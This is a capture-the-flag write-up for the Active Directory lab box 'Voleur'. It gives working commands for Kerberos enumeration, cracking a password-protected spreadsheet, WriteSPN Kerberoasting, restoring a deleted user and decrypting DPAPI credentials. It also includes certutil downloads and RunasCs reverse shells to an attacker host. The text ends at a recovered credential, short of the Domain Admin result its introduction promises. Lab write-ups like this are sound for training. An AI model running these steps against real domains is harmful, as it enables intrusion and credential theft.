Voleur is a Windows Active Directory box where every step rides on Kerberos authentication. Starting from breached credentials, we enumerate the domain with nxc and rusthound, abuse WriteSPN with bloodyAD to roast a service account, restore a tombstoned user with PowerView, and finally decrypt DPAPI credential blobs to escalate all the way to Domain Admin.
This box assumes a breached scenario with creds ryan.naylor:HollowOct31Nyt
As usual we first went with our nmap scan
sudo nmap -sVC -p- -oA nmapScan 10.129.232.130
Not shown: 65514 filtered tcp ports (no-response)
PORT STATE SERVICE REASON VERSION
53/tcp open domain syn-ack ttl 127 Simple DNS Plus
88/tcp open kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-09-19 00:32:36Z)
135/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC
139/tcp open netbios-ssn syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: voleur.htb, Site: Default-First-Site-Name)
445/tcp open microsoft-ds? syn-ack ttl 127
464/tcp open kpasswd5? syn-ack ttl 127
593/tcp open ncacn_http syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped syn-ack ttl 127
2222/tcp open ssh syn-ack ttl 127 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 42:40:39:30:d6:fc:44:95:37:e1:9b:88:0b:a2:d7:71 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC+vH6cIy1hEFJoRs8wB3O/XIIg4X5gPQ8XIFAiqJYvSE7viX8cyr2UsxRAt0kG2mfbNIYZ+80o9bpXJ/M2Nhv1VRi4jMtc+5boOttHY1CEteMGF6EF6jNIIjVb9F5QiMiNNJea1wRDQ2buXhRoI/
| KmNMp+EPmBGB7PKZ+hYpZavF0EKKTC8HEHvyYDS4CcYfR0pNwIfaxT57rSCAdcFBcOUxKWOiRBK1Rv8QBwxGBhpfFngayFj8ewOOJHaqct4OQ3JUicetvox6kG8si9r0GRigonJXm0VMi/aFvZpJwF40g7+oG2EVu/sGSR6d6t3ln5PNCgGXw95pgYR4
| x9fLpn/OwK6tugAjeZMla3Mybmn3dXUc5BKqVNHQCMIS6rlIfHZiF114xVGuD9q89atGxL0uTlBOuBizTaF53Z//yBlKSfvXxW4ShH6F8iE1U8aNY92gUejGclVtFCFszYBC2FvGXivcKWsuSLMny++ZkcE4X7tUBQ+CuqYYK/5TfxmIs=
| 256 ae:d9:c2:b8:7d:65:6f:58:c8:f4:ae:4f:e4:e8:cd:94 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMkGDGeRmex5q16ficLqbT7FFvQJxdJZsJ01vdVjKBXfMIC/oAcLPRUwu5yBZeQoOvWF8yIVDN/FJPeqjT9cgxg=
| 256 53:ad:6b:6c:ca:ae:1b:40:44:71:52:95:29:b1:bb:c1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILv295drVe3lopPEgZsjMzOVlk4qZZfFz1+EjXGebLCR
3268/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: voleur.htb, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped syn-ack ttl 127
5985/tcp open http syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open mc-nmf syn-ack ttl 127 .NET Message Framing
49664/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC
60629/tcp open ncacn_http syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
60630/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC
60631/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC
60655/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC
64257/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel
We then did a nxc to check whether the creds authenicate and we found this

whenever you see NTLM:False this usually suggests that it uses Kerberos Authenication and we can't use PtH techniques, so first we must match our time to the DC01 time since Kerberos uses time stamps in its authenicationsudo rdate -n 10.129.232.130
and then any command we run using nxc we must use -k

We then enumerated all the users using nxc
nxc smb 10.129.232.130 -u ryan.naylor -p HollowOct31Nyt -k --users

We then used rusthound
rusthound-ce --domain voleur.htb -n 10.129.232.130 -u ryan.naylor -p HollowOct31Nyt -z
and from bloodhound we don't see any outbound edges coming from the user ryan,

but we notice that ryan is theFIRST-LINE TECHNICIANS group, so this highly suggests that there maybe a smb share that members of that group can access, so first we can enumerate the shares using nxc
nxc smb 10.129.232.130 -u ryan.naylor -p HollowOct31Nyt -k --shares

we notice that there is indeed aIT share, so lets use smbclient to access it, but first since it uses kerberos authenication we need to first change the krb5.conf first since we will use kerberos authenication
changing krb5.conf file
[libdefaults]
default_realm = VOLEUR.HTB
dns_lookup_realm = false
dns_lookup_kdc = true
[realms]
VOLEUR.HTB = {
kdc = DC.VOLEUR.HTB
admin_server = DC.VOLEUR.HTB
}
[domain_realm]
.voleur.htb = VOLEUR.HTB
voleur.htb = VOLEUR.HTB
and then we add it the host to our /etc/hosts
10.129.232.130 DC.VOLEUR.HTB VOLEUR.HTB dc
create a ticket using kinit
kinit ryan.naylor@VOLEUR.HTB
we can then check the ticket if its working or not using klist

with that now we can use smbclient with a -k like so
smbclient -k //DC.VOLEUR.HTB/IT -U 'VOLEUR.HTB\ryan.naylor%HollowOct31Nyt'

we then transfer this excel file to a windows host and notice that its password protected

and using ryan.naylor password didnt work, so lets use office2john so we can crack itoffice2john Access_Review.xlsx > Access_Review.hash
and then use john to crack it
john Access_Review.hash --wordlist=/usr/share/wordlists/rockyou.txt

football1, so then we try to access the excel file
we notice we have a deleted account Lacey.Miler, and we also have some service accounts which we have their passwords

but the credentials for Lacey.miller don't workryan.naylor:HollowOct31Nyt
lacey.miller:NightT1meP1dg3on14
svc_ldap:M1XyC9pW7qT5Vn
svc_iis:N5pXyW1VqM7CZ
Lets then see what permissions these service users have

we can see thesvc_ldap user has WriteSPN on the svc_winrm , so we can use bloodyAD to write a SPN on the user and retrieve its hash and hopefully it cracks
bloodyAD --host DC.VOLEUR.HTB --dc-ip 10.129.232.130 -d VOLEUR.HTB -u svc_ldap -p 'M1XyC9pW7qT5Vn' -k set object svc_winrm servicePrincipalName -v 'VOLEUR.HTB/meow'
[+] svc_winrm's servicePrincipalName has been updated
now we can use GetUsersSPNs.py to get the hashes for the SVC_WINRM user
GetUserSPNs.py VOLEUR.HTB/svc_ldap:'M1XyC9pW7qT5Vn' -request-user svc_winrm -dc-ip 10.129.232.130 -k -dc-host DC.VOLEUR.HTB

with this tgt hash lets try to crack it using hashcathashcat -m 13100 svc_winrm.hash /usr/share/wordlists/rockyou.txt

the hash cracks which lists the password for the svc_winrm user asAFireInsidedeOzarctica980219afi , so now we can evil-winrm into the svc_winrm user since they are in the Remote Management Group , but since this box uses kerberos authenication we must first get a valid ticket as svc_winrm , which can be done using kinit
kinit svc_winrm@10.129.232.130
and then from there
evil-winrm -i DC.VOLEUR.HTB -r VOLEUR.HTB
and we can find the user flag on the Desktop
Now to reach root, lets circle back on the bloodhound
 we notice that the
we notice that the svc_ldap is a member of the RESTORE_USERS which has genericwrite on the Second-line support OU and on lacey.miller, and from the excel file we found before

we notice that there is a deleted user called Todd Wolfe, which we can see logged in from the winrm session
So first lets utilize the genericWrite on lacey.miller to see if we can see anything from the user in a SMB share , well since we have genericWrite we can write a SPN on the user
bloodyAD --host DC.VOLEUR.HTB --dc-ip 10.129.232.130 -d VOLEUR.HTB -u svc_ldap -p 'M1XyC9pW7qT5Vn' -k set object lacey.miller servicePrincipalName -v 'VOLEUR.HTB/gurt'
[+] lacey.miller's servicePrincipalName has been updated
And we couldn't crack it, also we couldn't add a secret key to it
if we circle back we notice htat the svc_ldap is in the restore_users group which can be used to restore the deleted objects, so first we can use evil-winrm session to use PowerView which can be used to restore the deleted objects
so first we can use the RunasCS.exe which would help us run a cmd as svc_ldap since the user has access to the group, so first upload it to the box using certutil
certutil -urlcache -split -f "http://10.10.17.173:7090/Runascs.exe" Runascs.exe
./Runascs.exe svc_ldap 'M1XyC9pW7qT5Vn' cmd -r 10.10.17.173:4444
and

now from there we can use PowerView to restore deleted objects, first transfer it to the shell using certutil aswellcertutil -urlcache -split -f "http://10.10.17.173:7090/PowerView.ps1" PowerView.ps1
and then import it
Import-Module ./PowerView.ps1
and then to query deleted objects we can use this
Get-DomainObject -Identity "todd.wolfe" -Tombstone

with this we can restore this object using itsobjectguid
Restore-ADObject -Identity "1c6b1deb-c372-4cbb-87b1-15031de169db"
Now from the excel they said that the password for the todd.wolfe user was NightT1meP1dg3on14, so we can check with nxc if it works now

now with this lets run another rusthound using this user credentials to see what access does he have
He does not have any outbound edges, but hes a member of Remote Management users, so lets use RunasCs.exe again just to have a shell as the user
./Runascs.exe todd.wolfe NightT1meP1dg3on14 cmd -r 10.10.17.173:6666

Now we notice from the bloodhound that todd.wolfe is a member ofSecond-Line Technicians which highly suggests that there is something found in the smbshare, aswell through the shell if we enumerated the directories we would find this

now lets use smbclient to do recursive listing instead fo manually searching
smbclient --realm=VOLEUR.HTB -U 'VOLEUR.HTB/todd.wolfe%NightT1meP1dg3on14' //DC.VOLEUR.HTB/IT
we notice this

now this is theDPAPI credentials which can only be decrypted if you know the users password, which we have. Now since we have DPAPI credential blobs, we typically need a masterkey which is what we actually found, and then any user SIDS that are stored as blobs, so typically look for files in the format S-1-5-21
Or we could use a tool like SharpDPAPI, but we will just do it manually

so we can see there is a file underneath which is a blob that can be used and decrypted since we have the masterkey, so first lets download them from the smbclient using get
\Second-Line Support\Archived Users\todd.wolfe\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D
\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Protect\S-1-5-21-3927696377-1337352550-2781715495-1110\08949382-134f-4c63-b93c-ce52efc0aa88
Now we can decrypt it using impacket-dpapi
impacket-dpapi.py masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password NightT1meP1dg3on14
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
[MASTERKEYFILE]
Version : 2 (2)
Guid : 08949382-134f-4c63-b93c-ce52efc0aa88
Flags : 0 (0)
Policy : 0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)
Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
now that we have the decrypted key , we can now decrypt the blob for that was found like so
impacket-dpapi.py credential -file DFBE70A7E5CC19A398EBF1B96859CE5D -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240
ce2b8a9dfb92a0d15969ccae6f550650a83

we do have a password but no username, so we can try to password spray this against all users , and see which user has this password
so we have jeremy.combs:qT3V9pLXyN7W4m
